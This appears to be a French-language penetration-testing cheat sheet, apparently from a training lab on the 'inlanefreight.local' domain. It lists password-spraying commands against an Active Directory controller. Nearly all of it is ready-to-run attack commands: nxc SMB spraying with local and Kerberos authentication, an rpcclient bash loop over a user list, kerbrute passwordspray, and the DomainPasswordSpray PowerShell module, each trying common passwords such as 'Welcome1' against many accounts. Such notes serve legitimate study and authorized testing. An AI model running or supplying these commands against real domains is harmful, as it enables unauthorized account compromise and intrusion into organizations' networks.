 ```shell
nxc smb 172.16.5.5 -u valid_users.txt -p Password123 --continue-on-success | grep +
```

Local-auth

```shell
nxc smb 172.16.5.5 -u valid_users.txt -p Password123 --continue-on-success --local-auth | grep +
```

Kerberos

```shell
nxc smb 172.16.5.5 -u valid_users.txt -p Password123 --continue-on-success -k --kdcHost 172.16.5.5 | grep +
```

### *RPCCLIENT*

boucle for

```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

### *KERBRUTE*

> [!Important]
> Attention s'arrête au premier valide

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```


## Depuis Windows

### *DOMAINPASSWORDSPRAY*

https://github.com/dafthack/DomainPasswordSpray

```powershell
Import-Module .\DomainPasswordSpray.ps1
```

```powershell
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

### *KERBRUTE*

> [!Important]
> Attention s'arrête au premier valide

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
